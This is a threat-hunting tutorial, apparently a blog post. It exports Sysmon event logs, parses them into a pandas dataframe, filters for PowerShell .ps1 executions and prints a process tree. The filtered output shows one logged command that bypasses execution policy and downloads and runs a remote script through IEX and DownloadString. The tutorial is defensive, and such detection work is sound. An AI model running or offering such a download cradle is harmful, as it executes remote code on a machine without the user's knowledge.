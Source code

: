 ```yaml
---
title: "Threat Hunting with sysmon 101 part 4: Loading events in pandas dataframe"
date: 2024-03-25 22:40:00 +0200
categories: Threat_hunting
description: Threat hunting with sysmon 
tags: Threat hunting sysmon Threat-hunting windows logs ELK
published: true
---
```


In the past article, we used powershell scripting to filter the events and perform basic querying, in this article we will load sysmon logs into python, and explore some powerful queries that we can apply to our data to gain better understanding of it.

# Exporting events to xml
The first step is to export sysmon events from the event log in xml format. This can be done either using get-winevent, or wevtutil. But, it seems that wevtutil is much faster .

This command uses **wevtutil.exe** to dump the logs to **exported-eventlog.xml** file on the desktop in XML format.
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:events > ~/Desktop/exported-eventlog.xml
```
Or, this slower version that uses **Get-WinEvent** powershell command
```
 Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'} |Export-Clixml -Path ~/Desktop/exported-eventlog.xml
```

Make sure to run these commands as admin in order to export the logs properly.

# Loading Events in python
Parsing XML files in python is easy, we just need to know which nodes/attributes are useful for us, this code snipper will load the xml file, iterate over each event, extract some data from each event, and then store load every thing in pandas dataframe.

```
import tabulate
from bs4 import BeautifulSoup
import pandas as pd

with open(r'exported-eventlog.xml', 'r' , encoding='utf16') as f:
    data = f.read()

parsed = BeautifulSoup(data, "xml")

events_list  = []
for event in parsed.find_all('Event'):
    evt_dict ={}
    evt_dict['EventID'] = event.find('EventID').text
    evt_dict['Computer'] = event.find('Computer').text
    evt_dict['EventRecordID'] = event.find('EventRecordID').text
    for j in event.find_all("Data"):
        evt_dict[j['Name']] = j.text
    events_list.append(evt_dict)

df = pd.DataFrame(events_list)
print('Loaded %d events' % len(df))
```

# Use case: Search for execute .ps1 files

```
filtered_df = df[(df['CommandLine'].notna()) & (df['CommandLine'].str.match('.*PoWeRSHeLl.*pS1.*',case=0))][['EventID','ProcessId','Image','CommandLine']]
print(tabulate.tabulate(filtered_df ,headers= filtered_df.columns))
```

```
        EventID    ProcessId  CommandLine
----  ---------  -----------  ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 115          1         3900  powershell.exe  -noexit -ep bypass -command IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/11x256/11x256.github.io/test/assets/exercise/th3/1.ps1'))

9082          1         7464  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noexit -command "try { . \"c:\Users\abdo-pc\AppData\Local\Programs\Microsoft VS Code\resources\app\out\vs\workbench\contrib\terminal\browser\media\shellIntegration.ps1\" } catch {}"

```


# Use case: Create Process Tree
Another thing we can try now is to create a process tree to show the relationships between the processes.
In order to create a process tree, we will need 2 things:
- identify root nodes, these nodes (processes) don't have a parent, this can be either due to missing data, or because thats the first process created by the OS.
- Create list of children of each node: this will allow us to create the parent-child relationship


## The firs step: Prepare the data
In this step will check what nodes are missing from our data ,and we will select a subset of filed to use in the process tree
```
# List to store all the nodes
nodes = []
# Dictionary to identify missing nodes
nodes_guids = {}
for i in df[df['EventID'] == "1" ].itertuples():
    node = {}
    node['Name'] = i.Image.split('\\')[-1]
    node['Cmd'] = i.CommandLine
    node['ProcessGuid'] = i.ProcessGuid
    node['ParentProcessGuid'] = i.ParentProcessGuid
    node['ProcessId'] = i.ProcessId

    nodes.append(node)
    nodes_guids[i.ProcessGuid] = 1 # set the node in the dict as available
```



## The second step: Create the parent-child relationship

```
roots = []
childs = {}

for i in nodes:
    if nodes_guids.get(i['ParentProcessGuid'] , 0 ) == 0:
        roots.append(i)
    else:
        if i['ParentProcessGuid']  not in childs:
            childs[i['ParentProcessGuid'] ] = []
        childs[i['ParentProcessGuid'] ].append(i)


```

This code will create a list of roots, nodes without a parent in our set of data. And it will create a list of childs for each parent

## The third step: Print the tree
Now, we have every thing ready, we just need to print the data using recursion. Recursion is used in order to print the data in the required order, we need to print the root, then the first child, then the first child of the first child, and so on...
```
root
    child 1
        child 1 1
            child 1 1 1
        child 1 2
        child 1 3
            child 1 3 1
            child 1 3 2
    child 2
    child 3 
    ... 
```
Using a for loop to print the data , we will get in weird order for a process tree, which will look like this:
```
root
    child 1
    child 2
    child 3
    child 4
    child 1 1
    child 1 2
    child 3 1
    .... and so on
```

```
def print_node(node, indent =0):
    print(' '*indent , node['Name'] , node['ProcessId'])
    for j in childs.get(node['ProcessGuid'] , []):
        print_node(j, indent=indent+4)
for i in roots:
    print_node(i)

```

Which would print something like this, based on what you choose to print 

```
 mscorsvw.exe 1532
 mscorsvw.exe 5964
 chrome.exe 9320
     chrome.exe 6456
     chrome.exe 7568
     chrome.exe 940
     chrome.exe 10788
     chrome.exe 7448
     chrome.exe 3400
     chrome.exe 7060
     chrome.exe 5292
     chrome.exe 11128
     chrome.exe 4340
     chrome.exe 8556
     chrome.exe 8816
     chrome.exe 2052
     chrome.exe 5896
     chrome.exe 7016
     cmd.exe 5292
         conhost.exe 8224
     chrome.exe 768
     chrome.exe 9288
     chrome.exe 9716
     cmd.exe 4264
         conhost.exe 6736
    ....
```


